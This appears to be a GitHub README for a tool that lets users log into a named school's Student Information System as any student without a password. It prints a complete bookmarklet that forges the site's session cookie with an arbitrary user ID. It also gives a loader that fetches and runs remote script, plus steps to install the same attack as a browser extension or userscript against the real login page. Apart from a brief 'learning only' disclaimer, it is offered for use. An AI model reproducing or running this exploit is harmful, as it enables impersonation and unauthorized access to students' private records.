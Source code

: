 # XueWu System

***Zhuang ShengLi Database Presented***

A system written in Javascript that allows users to log in into Student Information System with any identity without password.

## Run It

There are 4 ways to run the script

1. Run using `javascipt:` URL
   
   1. Copy the following URL:
      
      - Offline Edition (Can be used anywhere without internet connection)
        
        ```javascript
        javascript:(function(){console.log("Hello from XueWu System Core Javascript. (C)opyright 2024 KCISHackers. All Rights reserved. Visit: https://www.github.com/KCISHacker/XueWuSystem for more info.");if(document.getElementById("tweaked")){alert('This page had already been tweaked! Do not run twice!');return;}function tweak(id){document.cookie="DSAI="+id+";path=/";fetch(window.location.origin+'/DSAI/Query/Form_ListDetention?strKeyWord1=').then(response=>response.json()).catch(error=>(function(){console.error(error);if(error.name=='SyntaxError'){alert(id+' seems not exist. Check your spelling.');return;}alert("Error while tweaking "+id+"! "+error);}()));}function btn_onclick(){if(document.getElementById("UserId").value==''){alert('Username field cannot be empty!');return;}tweak(document.getElementById("UserId").value);window.location.href="/DSAI/Home";}document.getElementsByName('btn_s')[0].addEventListener("click",function(){btn_onclick();});document.getElementsByClassName("main_logout")[0].innerText="tweaked by 学武系统tweaker";document.getElementsByClassName("ui-input-text ui-body-inherit ui-corner-all ui-shadow-inset")[1].innerHTML="<div style=\"color:red\">This program is for learning reference only, rather than abusing, or you'll take the risk!</div>";document.getElementById("UserId").addEventListener("keyup",function(event){if(event.keyCode===13){event.preventDefault();btn_onclick();}});var mark=document.createElement('div');mark.id='tweaked';document.body.appendChild(mark);}())
        ```
      
      - Online Edition (Need to access to raw.githubusercontent.com, but shorter)
        
        ```javascript
        javascript:(function(){var s=document.createElement('script');s.src='https://raw.githubusercontent.com/KCISHacker/XueWuSystem/main/core.js';document.body.appendChild(s);}())
        ```
   
   2. Visit this URL while you are in [Student Information System Log In Page](https://portal.kcisec.com/China/Account/LogIn). The Javascript should inject correctly. **If you are using Safari, skip this step.**
   
   3. You can save this URL as a bookmark and use it anytime.

2. Install as a browser extension **(may not work for Safari or FireFox)**:
   
   1. Go to [Extension Setting](about://extensions) page in your brower .
   
   2. Enable `Developer Mode` (It should appear somewhere on the page).
   
   3. After enabling this options, you should see a `Load Unpackaged` button on the page.
   
   4. Click it and specify the path of the folder `Chrome Extension` contained in the Git repository.
   
   5. It is now installed on your brower. Do not move, rename, or delete the `Chrome Extension` folder after installation.

3. Install as a Tampermonkey script :
   
   1. Firstly you need to have [Tampermonkey](https://www.tampermonkey.net) installed.
   
   2. Go to file [tampermonkey_script.user.js](https://raw.githubusercontent.com/KCISHacker/XueWuSystem/main/tampermonkey_script.user.js) and [view as raw](https://raw.githubusercontent.com/KCISHacker/XueWuSystem/main/tampermonkey_script.user.js).
   
   3. Tempermonkey should then detect the script and offer an installation page.
   
   4. You can disable the script anytime in the Tampermonkey menu.

4. Run the script manually:
   
   1. Open the JavaScript file named "core.js" from the Git repository.
   2. The file contains comments explaining the purpose of each function.
   3. Try running the functions in the [Developer Tools](https://en.wikipedia.org/wiki/Web_development_tools) Console of your browser while on the [Student Information System Log In Page](https://portal.kcisec.com/China/Account/LogIn).

:) Enjoy

## License

MIT License

Copyright (c) 2024 KCISHackers

Permission is hereby granted, free of charge, to any person obtaining a copy of this software and associated documentation files (the "Software"), to deal in the Software without restriction, including without limitation the rights to use, copy, modify, merge, publish, distribute, sublicense, and/or sell copies of the Software, and to permit persons to whom the Software is furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY, FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM, OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE SOFTWARE.
